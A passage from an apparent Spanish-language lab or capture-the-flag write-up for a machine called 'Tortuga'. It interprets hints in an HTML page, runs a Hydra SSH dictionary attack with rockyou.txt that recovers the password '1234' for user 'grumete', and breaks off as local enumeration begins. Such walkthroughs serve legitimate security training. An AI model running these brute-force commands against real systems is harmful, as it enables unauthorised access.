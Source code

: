 ```html
<!DOCTYPE html>
<html lang="es">
<head><meta charset="UTF-8"><title>Tripulación</title></head>
<body>
    <h1>La Tripulación de Tortuga</h1>
    <ul>
        <li><b>Capitán Barbanegra</b> – Estratega implacable.</li>
        <li><b>Corsario Rojo</b> – Maestro de la espada.</li>
        <li><b>Grumete Verde</b> – Aprendiz despistado.</li>
        <li><b>Timón de Hierro</b> – El que nunca pierde el rumbo.</li>
    </ul>
    <p><i>"Quien domine el timón hallará el rumbo a la victoria..."</i></p>
    <p><i>"Recuerda: el viejo truco de las rutas dobles siempre funciona..."</i></p>
</body>
</html>
```

**Análisis:** la página confirma términos relacionados a usuarios (Grumete/Timón) y aporta la sugerencia "rutas dobles" que puede interpretarse como una pista para probar rutas con dobles barras `//` o versiones de directorios con sufijos/extensions. Toda pista textual debe registrarse y correlacionarse con diferentes vectores (nombres de usuario, rutas, parámetros).

***

### 3) Ataque dirigido a autenticación — fuerza bruta

Con la hipótesis de que exista un usuario `grumete`, lancé un ataque de diccionario controlado contra SSH, registrando la salida para auditoría:

```bash
┌──(root㉿deox-kali)-[~]
└─# hydra -l grumete -P /usr/share/wordlists/rockyou.txt ssh://192.168.77.67 -t 4 -o scans/hydra-ssh-tortuga.txt
```

Resultado (extracto):

```bash
Hydra output (abridged)
Target: ssh://192.168.77.67:22
[22][ssh] host: 192.168.77.67   login: grumete   password: 1234
1 valid password found
```

**Riesgo y ética:** este tipo de pruebas deben realizarse en entornos autorizados. En producción, la presencia de credenciales débiles y la exposición de nombres de usuario en áreas públicas incrementan significativamente el riesgo.

***

### 4) Acceso inicial y enumeración local

Tras obtener la credencial, establecí sesión SSH con `grumete` y procedí a la enumeración mínima necesaria para identificar vectores de escalada:
